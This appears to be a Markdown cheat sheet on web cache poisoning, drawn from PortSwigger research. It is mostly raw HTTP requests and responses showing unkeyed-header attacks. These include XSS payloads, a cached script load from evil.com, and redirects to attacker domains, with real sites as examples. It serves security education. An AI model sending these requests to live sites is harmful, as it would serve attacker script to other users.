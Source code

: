 # Web Cache Poisoning

## Introduction
The objective of web cache poisoning is to send a request that causes a harmful response that gets saved in the cache and served to other users.

## Where to find
`-`

## How to exploit
1. Basic poisoning
```
GET / HTTP/1.1
Host: www.vuln.com
X-Forwarded-Host: evil.com
```
The response is
```
HTTP/1.1 200 OK
Cache-Control: public, no-cache
…
<img href="https://evil.com/a.png" />
```
> Or you can input XSS payloads
```
GET / HTTP/1.1
Host: www.vuln.com
X-Forwarded-Host: a.\"><script>alert(1)</script>
```
The response is
```
HTTP/1.1 200 OK
Cache-Control: public, no-cache
…
<img href="https://a.\"><script>alert(1)</script>a.png" />
```

2. Seizing the Cache
```
GET / HTTP/1.1
Host: unity3d.com
X-Host: evil.com
```
The response is
```
HTTP/1.1 200 OK
Via: 1.1 varnish-v4
Age: 174
Cache-Control: public, max-age=1800
…
<script src="https://evil.com/x.js">
</script>
```

3. Selective poisoning
```
GET / HTTP/1.1
Host: redacted.com
User-Agent: Mozilla/5.0 (<snip> Firefox/60.0)
X-Forwarded-Host: a"><iframe onload=alert(1)>
```
The response is
```
HTTP/1.1 200 OK
X-Served-By: cache-lhr6335-LHR
Vary: User-Agent, Accept-Encoding
…
<link rel="canonical" href="https://a">a<iframe onload=alert(1)>
```

4. Chaining Unkeyed Inputs 
- First step
```
GET /en HTTP/1.1
Host: redacted.net
X-Forwarded-Host: xyz
```
The response is
```
HTTP/1.1 200 OK
Set-Cookie: locale=en; domain=xyz
```
- Second step
```
GET /en HTTP/1.1
Host: redacted.net
X-Forwarded-Scheme: nothttps
```
The response is
```
HTTP/1.1 301 Moved Permanently
Location: https://redacted.net
```
- Third step
```
GET /en HTTP/1.1
Host: redacted.net
X-Forwarded-Host: attacker.com
X-Forwarded-Scheme: nothttps
```
The response is
```
HTTP/1.1 301 Moved Permanently
Location: https://attacker.com/en
```

5. Route Poisoning
```
GET / HTTP/1.1
Host: www.goodhire.com
X-Forwarded-Server: evil
```
The response is
```
HTTP/1.1 404 Not Found
CF-Cache-Status: MISS
...
<title>HubSpot - Page not found</title>
<p>The domain canary does not exist in our system.</p>
```
To exploit this, we need to go to hubspot.com, register ourselves as a HubSpot client, place a payload on our HubSpot page, and then finally trick HubSpot into serving this response on goodhire.com
```
GET / HTTP/1.1
Host: www.goodhire.com
X-Forwarded-Host: portswigger-labs-4223616.hs-sites.com
```
The response is
```
HTTP/1.1 200 OK
…
<script>alert(document.domain)</script>
```

6. Hidden Route Poisoning
```
GET / HTTP/1.1
Host: blog.cloudflare.com
X-Forwarded-Host: evil
```
The response is
```
HTTP/1.1 302 Found
Location: https://ghost.org/fail/
```
When a user first registers a blog with Ghost, it issues them with a unique subdomain under ghost.io. Once a blog is up and running, the user can define an arbitrary custom domain like blog.cloudflare.com. If a user has defined a custom domain, their ghost.io subdomain will simply redirect to it:
```
GET / HTTP/1.1
Host: blog.cloudflare.com
X-Forwarded-Host: noshandnibble.ghost.io
```
The response is
```
HTTP/1.1 302 Found
Location: http://noshandnibble.blog/
```

## References
* [Portswigger](https://portswigger.net/research/practical-web-cache-poisoning)